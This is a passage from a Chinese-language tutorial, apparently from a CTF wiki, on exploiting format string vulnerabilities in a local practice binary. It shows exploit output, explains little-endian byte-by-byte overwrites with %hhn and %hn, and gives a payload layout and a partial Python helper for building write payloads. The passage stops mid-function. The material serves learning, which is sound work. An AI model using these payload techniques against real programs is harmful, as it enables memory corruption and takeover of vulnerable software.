 对应的结果如下

```shell
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 76508
[*] Process './overwrite' stopped with exit code 0 (pid 76508)
0xffc1729c
aaaa$\xa0\x0modified a for a small number.
```

其实，这里我们需要掌握的小技巧就是，我们没有必要必须把地址放在最前面，放在那里都可以，只要我们可以找到其对应的偏移即可。

#### 覆盖大数字

上面介绍了覆盖小数字，这里我们就少覆盖大数字了。上面我们也说了，我们可以选择直接一次性输出大数字个字节来进行覆盖，但是这样基本也不会成功，因为太长了。而且即使成功，我们一次性等待的时间也太长了，那么有没有什么比较好的方式呢？自然是有了。

不过在介绍之前，我们得先再简单了解一下，变量在内存中的存储格式。首先，所有的变量在内存中都是以字节进行存储的。此外，在x86和x64的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678在内存中由低地址到高地址依次为\x78\x56\x34\x12。再者，我们可以回忆一下格式化字符串里面的标志，可以发现有这么两个标志：

```text
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
```

所以说，我们可以利用%hhn向某个地址写入单字节，利用%hn向某个地址写入双字节。这里，我们以单字节为例。

首先，我们还是要确定的是要覆盖的地址为多少，利用ida看一下，可以发现地址为0x0804A028。

```text
.data:0804A028                 public b
.data:0804A028 b               dd 1C8h                 ; DATA XREF: main:loc_8048510r
```

即我们希望将按照如下方式进行覆盖，前面为覆盖地址，后面为覆盖内容。

```text
0x0804A028 \x78
0x0804A029 \x56
0x0804A02a \x34
0x0804A02b \x12
```

首先，由于我们的字符串的偏移为6，所以我们可以确定我们的payload基本是这个样子的

```text
p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
```

我们可以依次进行计算。这里给出一个基本的构造，如下

```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
```